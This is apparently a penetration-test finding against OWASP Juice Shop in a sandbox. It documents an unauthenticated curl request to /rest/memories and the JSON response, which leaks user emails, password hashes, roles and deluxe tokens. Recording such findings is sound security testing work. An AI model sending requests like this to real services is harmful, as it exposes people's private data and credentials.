 # Authorization Exploitation Evidence

## Successfully Exploited Vulnerabilities

### AUTHZ-VULN-04: Anonymous Access to All User Memories

**Summary:**
- **Vulnerable location:** GET /rest/memories endpoint
- **Overview:** Complete anonymous access to ALL users' private memories without authentication
- **Impact:** Critical data exposure including personal photos, user information, and private content
- **Severity:** Critical

**Prerequisites:** 
None - no authentication required

**Exploitation Steps:**

1. Make unauthenticated GET request to memories endpoint:
```bash
curl -s -i "http://juice-shop.sandbox.local:3001/rest/memories"
```

2. Receive complete response with all user memories:
```json
{
  "status": "success",
  "data": [
    {
      "UserId": 13,
      "id": 1,
      "caption": "😼 #zatschi #whoneedsfourlegs",
      "imagePath": "assets/public/images/uploads/ᓚᘏᗢ-#zatschi-#whoneedsfourlegs-1572600969477.jpg",
      "User": {
        "id": 13,
        "email": "bjoern@owasp.org",
        "password": "9283f1b2e9669749081963be0462e466",
        "role": "deluxe",
        "deluxeToken": "efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4"
      }
    },
    // ... 9 more user memories with full user data
  ]
}
```

**Proof of Impact:**
- **Zero authentication required** - completely public endpoint
- **10+ user memories exposed** including private photos and captions
- **Complete user data leaked** including emails, password hashes, roles, and deluxe tokens
- **Users affected:** Admin users (bjoern.kimminich@gmail.com), deluxe users (bjoern@owasp.org), and regular customers

